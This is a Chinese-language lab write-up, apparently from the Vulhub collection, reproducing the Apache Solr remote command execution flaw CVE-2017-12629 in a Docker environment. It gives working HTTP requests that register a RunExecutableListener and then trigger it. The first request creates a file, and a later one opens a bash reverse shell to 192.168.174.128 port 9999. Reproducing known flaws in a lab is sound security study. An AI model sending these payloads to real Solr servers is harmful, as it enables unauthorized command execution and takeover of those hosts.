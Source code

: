 # Apache Solr 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境测试RCE漏洞。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![image-20220301111215342](./images/202203011112418.png)

## 漏洞复现

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"new_listener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/awesome_poc"]}}
```

![image-20220301111449684](./images/202203011114799.png)

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![image-20220301111552786](./images/202203011115847.png)

执行`docker-compose exec solr bash`进入容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220301111641749](./images/202203011116817.png)

执行反弹shell命令：

```
POST /solr/demo/config HTTP/1.1
Host: your-vps-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 192

{"add-listener":{"event":"postCommit","name":"newlistener_bash","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"]}}
```

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

成功接收反弹shell：

![image-20220301112041937](./images/202203011120015.png)